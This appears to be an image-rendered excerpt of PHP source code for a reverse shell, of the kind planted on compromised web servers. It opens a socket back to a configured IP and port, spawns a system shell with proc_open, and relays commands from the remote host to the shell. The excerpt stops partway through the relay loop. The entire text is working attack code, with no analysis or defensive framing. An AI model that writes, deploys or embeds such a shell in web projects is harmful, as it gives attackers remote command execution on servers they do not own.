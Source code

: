 ```

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
```
